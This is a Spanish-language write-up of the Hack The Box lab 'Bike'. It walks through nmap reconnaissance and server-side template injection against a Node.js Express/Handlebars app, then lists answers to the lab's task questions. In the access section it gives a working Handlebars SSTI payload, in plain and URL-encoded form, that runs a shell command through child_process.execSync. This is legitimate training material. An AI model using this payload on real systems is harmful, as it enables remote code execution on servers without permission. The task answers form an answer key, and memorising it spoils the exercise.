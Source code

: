 # Bike

### 1. 📝 **Introducción**

* **Nivel de Dificultad**: Muy fácil.
* **Tags:**&#x20;
  * **Custom Applications (Aplicaciones Personalizadas):** Son aplicaciones desarrolladas específicamente para satisfacer necesidades particulares de una organización. A menudo, estas aplicaciones no se desarrollan siguiendo las mejores prácticas de seguridad, lo que puede dar lugar a vulnerabilidades. Dado que son personalizadas, pueden ser difíciles de mantener y auditar, lo que aumenta el riesgo de ser objetivo de un ataque si no se gestionan adecuadamente.
  * **NodeJS:** Es un entorno de ejecución para JavaScript en el servidor, ampliamente utilizado para construir aplicaciones web escalables y rápidas. Aunque es potente y flexible, si no se implementa correctamente o se usan dependencias inseguras, NodeJS puede ser vulnerable a ataques como la ejecución remota de código o la inyección de dependencias maliciosas.
  * **Reconnaissance (Reconocimiento):** Es una fase inicial crucial en el proceso de pruebas de penetración, en la que se recopila información sobre el objetivo. Esto incluye escaneo de puertos, identificación de servicios y posibles vulnerabilidades, y análisis de la infraestructura. El objetivo del reconocimiento es descubrir posibles puntos de entrada y explotar configuraciones incorrectas.
  * **Remote Code Execution (Ejecución Remota de Código):** Es una vulnerabilidad crítica que permite a un atacante ejecutar código malicioso en el sistema de la víctima de manera remota. Puede explotarse a través de diversos vectores como aplicaciones web, servicios mal configurados o vulnerabilidades en el software. La ejecución remota de código pone en peligro la integridad y la confidencialidad de los sistemas afectados.
  * **Server Side Template Injection (SSTI) (Inyección de Plantillas del Lado del Servidor):** Es una vulnerabilidad que ocurre cuando un atacante puede inyectar código malicioso en las plantillas del lado del servidor, lo que permite la ejecución de código en el servidor. Esta vulnerabilidad puede ser utilizada para ejecutar comandos del sistema operativo, robar datos o comprometer el servidor, especialmente si el sistema de plantillas no valida correctamente los datos introducidos por el usuario.

### 2. 🛠️ **Entorno**

Nos descargamos nuestra VPN y nos conectamos.

```
sudo openvpn nombre_del_archivo.vpn
```

Iniciamos la máquina y verificamos la conexión.

```bash
ping -c 1 10.129.97.64
```

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

Observamos que tenemos conexión y que es una máquina **Linux** ya que su **ttl=63**.

### 3. 🔍 **Reconocimiento**

A continuación, se realiza el comando:

```bash
nmap -sCV -Pn 10.129.97.64
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 4. 🚪 **Acceso Inicial**

Como podemos observar durante el escaneo, el puerto **22** perteneciente al servicio **SSH** y el puerto **80** correspondiente a **HTTP** están abiertos. A continuación, se indagará más sobre estos servicios.

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2025-02-13 181725.png" alt=""><figcaption></figcaption></figure>

Vemos la información de la página.

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2025-02-13 182158.png" alt=""><figcaption></figcaption></figure>

Ponemos `{{7*7}}` para ver si tenemos una vulnerabilidad SSTI.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

Copiamos el payload de Node.js.

{% embed url="https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html" %}

```bash
wrtz{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}

```

Codificamos el código en formato URL y lo pegamos en el campo email de la petición.

```bash
%77%72%74%7a%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%70%72%6f%63%65%73%73%2e%6d%61%69%6e%4d%6f%64%75%6c%65%2e%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%53%79%6e%63%28%27%63%61%74%20%2f%72%6f%6f%74%2f%66%6c%61%67%2e%74%78%74%27%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d%0a
```

### 5. 🔑 **Captura de la Flag**

<figure><img src="../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 6. ❓Preguntas

**Task 1:** ¿Qué puertos TCP identifica nmap como abiertos? Responde con una lista de puertos separados por comas y sin espacios, de menor a mayor.

* **22,80**

**Task 2:** ¿Qué software está ejecutando el servicio que escucha en el puerto HTTP/web identificado en la primera pregunta?

* **node.js**

**Task 3:** ¿Cuál es el nombre del marco web según Wappalyzer?

* **express**

**Task 4:** ¿Cuál es el nombre de la vulnerabilidad que probamos enviando \{{7\*7\}}?

* **Server Side Template Injection**

**Task 5:** ¿Cuál es el motor de plantillas que se está utilizando dentro de Node.js?

* **handlebars**

**Task 6:** ¿Cuál es el nombre de la pestaña de BurpSuite utilizada para codificar texto?

* **decoder**

**Task 7:** Para enviar caracteres especiales en nuestra carga útil en una solicitud HTTP, codificamos la carga útil. ¿Qué tipo de codificación usamos?

* **url**

**Task 8:** Cuando usamos una carga útil de HackTricks para intentar ejecutar comandos del sistema, obtenemos un error. ¿Qué es lo que "no está definido" en el error de respuesta?

* **require**

**Task 9:** ¿Qué variable es tradicionalmente el nombre del ámbito de nivel superior en el contexto del navegador, pero no en Node.js?

* **global**

**Task 10:** Al explotar esta vulnerabilidad, obtenemos ejecución de comandos como el usuario que ejecuta el servidor web. ¿Cuál es el nombre de ese usuario?

* **root**
